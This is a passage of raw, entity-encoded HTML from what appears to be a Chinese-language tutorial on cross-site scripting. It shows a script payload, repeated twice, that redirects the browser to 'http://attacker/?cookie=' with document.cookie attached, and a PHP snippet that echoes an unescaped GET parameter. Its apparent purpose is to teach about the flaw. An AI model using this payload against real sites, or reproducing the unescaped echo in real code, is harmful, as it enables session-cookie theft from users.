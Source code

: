 window.location=&apos;http://attacker/?cookie=&apos;+document.cookie;
&lt;/script&gt;
" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript">
<span class="hljs-comment">//&#x653B;&#x51FB;&#x4EE3;&#x7801;</span>

&lt;script&gt;
<span class="hljs-built_in">window</span>.location=<span class="hljs-string">&apos;http://attacker/?cookie=&apos;</span>+<span class="hljs-built_in">document</span>.cookie;
<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></span>
</code></pre><p>&#x800C;&#x6211;&#x4EEC;&#x670D;&#x52A1;&#x5668;&#x548C;&#x524D;&#x7AEF;&#x672A;&#x505A;XSS&#x9632;&#x8303;&#xFF0C;&#x76F4;&#x63A5;&#x62FF;&#x53D6;&#x94FE;&#x63A5;&#x4E2D;&#x7684;&#x53C2;&#x6570;&#xFF0C;&#x663E;&#x793A;&#x5230;&#x9875;&#x9762;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;?php

 echo &#x2018;Hi,&#x2019; . $_GET[&#x2018;name&#x2019;];

?&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="php hljs"><code class="php"><span class="hljs-meta">&lt;?php</span>

 <span class="hljs-keyword">echo</span> &#x2018;Hi,&#x2019; . $_GET[&#x2018;name&#x2019;];
